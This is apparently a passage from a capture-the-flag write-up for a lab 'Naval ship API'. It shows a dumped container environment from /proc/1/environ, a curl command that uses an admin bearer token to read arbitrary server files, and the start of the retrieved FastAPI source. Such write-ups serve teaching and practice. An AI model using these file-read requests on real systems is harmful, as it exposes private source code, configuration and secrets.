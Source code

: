 ```console
"HOSTNAME=3d8fcef4af21\u0000PYTHON_VERSION=3.10.13\u0000APP_MODULE=shipapi.main:app\u0000PWD=/app\u0000PORT=80\u0000PYTHON_SETUPTOOLS_VERSION=65.5.1\u0000TZ=Europe/Prague\u0000HOME=/home/appuser\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/app/venv\u0000GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D\u0000PYTHONPATH=.\u0000HOST=0.0.0.0\u0000SHLVL=0\u0000PYTHON_PIP_VERSION=23.0.1\u0000VIRTUAL_ENV_PROMPT=(venv) \u0000PYTHON_GET_PIP_SHA256=45a2bb8bf2bb5eff16fdd00faef6f29731831c7c59bd9fc2bf1f3bed511ff1fe\u0000PS1=(venv) \u0000PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/9af82b715db434abb94a0a6f3569f43e72157346/public/get-pip.py\u0000PATH=/app/venv/bin:/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000"
```

We can see that `uvicorn` is running in `/app` directory (see `PWD` in request asking for `proc/1/environ`) and it's
launching `shipapi.main:app` application. Uvicorn documentation reveals that without extra args the application is
loaded from the current directory so we can request `/app/shipapi/main.py`.

```console
$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/app/shipapi/main.py"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq -r .file
```

```python
import asyncio

from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
from fastapi_contrib.common.responses import UJSONResponse
from fastapi import FastAPI, Depends, HTTPException, status
from fastapi.security import HTTPBasic, HTTPBasicCredentials
from fastapi.openapi.docs import get_swagger_ui_html
from fastapi.openapi.utils import get_openapi

from typing import Optional, Any
from pathlib import Path
from sqlalchemy.orm import Session

from shipapi.schemas.user import User
from shipapi.api.v1.api import api_router
from shipapi.appconfig.config import settings

from shipapi import deps
from shipapi import crud

app = FastAPI(title="Naval ship API", openapi_url=None, docs_url=None, redoc_url=None)
root_router = APIRouter(default_response_class=UJSONResponse)


@app.get("/", summary=" ", status_code=200, include_in_schema=False)
def root():
    """
    Root
    """
    return {"msg": "Naval ship API version 1.0"}


@app.get("/api", summary="List versions", status_code=200, include_in_schema=False)
def list_versions():
    """
    API versions
    """
    return {"endpoints": ["v1"]}


@app.get("/api/v1", summary="List v1 endpoints", status_code=200, include_in_schema=False)
def list_endpoints_v1():
    """
```

[jwt_tool]: https://github.com/ticarpi/jwt_tool
[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj